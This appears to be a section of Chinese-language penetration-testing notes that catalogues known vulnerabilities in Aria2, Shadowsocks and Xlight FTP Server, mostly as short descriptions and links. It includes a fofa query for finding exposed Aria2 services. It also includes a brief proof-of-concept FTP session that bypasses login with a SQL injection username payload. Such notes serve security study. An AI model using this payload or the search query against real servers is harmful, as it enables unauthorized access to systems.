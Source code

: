 **ruby-debug-ide**

- 相关文章
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)

---

# 远程服务

## Aria2

> 项目地址 : https://github.com/aria2/aria2

> fofa : "Aria2"

**Aria2 任意文件写入漏洞**
- 简介

    Aria2 是一个命令行下轻量级、多协议、多来源的下载工具 (支持 HTTP/HTTPS、FTP、BitTorrent、Metalink) ,内建 XML-RPC 和 JSON-RPC 接口.在有权限的情况下,我们可以使用 RPC 接口来操作 aria2 来下载文件,将文件下载至任意目录,造成一个任意文件写入漏洞.

- 相关文章
    - [Aria2 任意文件写入漏洞](https://github.com/vulhub/vulhub/blob/master/aria2/rce/README.zh-cn.md)

---

## Shadowsocks

**对 Shadowsocks stream ciphers 的重定向攻击**
- https://github.com/edwardz246003/shadowsocks

---

# 文件服务
## FTP

**相关文章**
- [云服务器ftp被动和主动模式都连接失败](https://mp.weixin.qq.com/s/ogy7RuJpfABpdf4CHc3imA)

**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- POC | Payload | exp
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```
